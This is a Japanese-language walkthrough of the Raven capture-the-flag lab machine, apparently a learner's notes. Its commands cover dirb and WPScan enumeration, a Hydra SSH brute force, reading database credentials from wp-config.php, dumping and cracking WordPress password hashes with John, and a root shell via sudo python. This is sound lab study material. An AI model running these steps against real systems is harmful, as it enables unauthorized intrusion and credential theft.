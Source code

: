 ## Raven 683~

## 目的
- flag4.txtを見る
## 実践
### ポートスキャンまでは同じ
- フォルダを作る
- 環境変数に登録する
  

### Dirbでサイトを探す
- `dirb $URL -r`
  - `-r` 再帰的に調査しない
  - 辞書ファイルを指定しないと、デフォルトの/usr/share/dirb/wordlists/common.txtファイルを使っている
### Webサイトを見てみる
  - `http://192.168.56.107/wordpress`ブラウザのパスを見て、wordpressが使われているのがわかる
  - サイトが崩れているので直す
  - `sudo vi /etc/hosts` 下のを書く
  - `192.168.56.107 raven.local` 
### WPScanでWordPressをチェックする
  - wpscanをインストールできるようにNATに接続する
  - `sudo gem install wpscan`
  - `sudo wpscan --url 192.168.56.107/wordpress --enumerate u`
  - wpscanで得た名前をnames.txtに書いておく。`cat > names.txt`
    ```
    michael
    steven
    ```
### Hydraでパスワード探す
  - `sudo hydra ssh://192.168.56.107 -L names.txt -P /usr/share/john/password.lst -v -t 4`
  - httpでなく、sshなので注意
  - `michael`だけしかパスワードわからないので、そこで止める
### sshで接続
  - `ssh michael@$IP`
### MySQLの設定情報を見る
- wordpressの設定ファイルにuser,passworを探す
  - `cd /var/www/html/wordpress/`
  - `cat wp-config.php`
- portを探す `netstat -antp`
- MySQLのデフォルトポートは3306なので、それを使う
### MySQLに接続
- `mysql -h localhost -u root -pR@v3nSecurity`
- `-p`オプションはパスワードだが、なぜかスペースなしで続けてパスワードを書く。そもそもパスワードをコマンドに書かない
- mysql> こんなプロンプトが返ってきたら成功
- 注意: MySQLはコマンドの最後に`;`をつけないとダメ
- データベースに何が入っているか表示する `show databases;`
- wordpressが気になるので移動して見る `use wordpress;`
- wordpressの中身にどんなのがあるか調べてみる `show tables;` 
- wp_usersが気になるので見てみる  
  - `select * from wp_users\G`
  - selectはprintみたいなもの
  - \Gは綺麗に表示してくれる。なしでやってみたらわかる
- `select concat(user_login, ":", user_pass) from wp_users into outfile '/tmp/hash.txt';`
- ユーザ名とパスワードの書いたhash.txtが作成される
- `quit;`
### ParrotOS側のhash.txtにコピーする
  - 通常パスワードの解析は攻撃側端末で行う理由は３つ
  - 1. ターゲット端末にJohnがインストールされてることはない
    2. ターゲット端末に負荷がかかるので見つかる可能性がある
    3. 攻撃端末の方が高スペックである
  - ターゲット端末のhash.txtをコピーして、ParrotOS側の端末のターミナルにペーストする
### John the ripper(ParrotOS側で)
  - hash.txtの場所に移動して、またはhash.txtを絶対パスで指定して以下を実行 
  - `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    - 過去に一度解析していたら以下のコマンドする
    - `john --show hash.txt` 
### sudo -l
  - userとpasswordがわかるので、sshでログインする
  - sshで接続
  - `sudo -l` Pythonがルート権限で使えるのを確認
### Pythonでrootシェルを取得
  - `sudo /usr/bin/python`
  - ここでPythonのプログラムが起動する。Pythonはシェルを起動できるので、Pythonで起動したものはrootになれる
  - `import os`
  - `os.system('/bin/bash')`
### ルートフラグを開く
  - `cd /root`
  - `cat flag4.txt`    
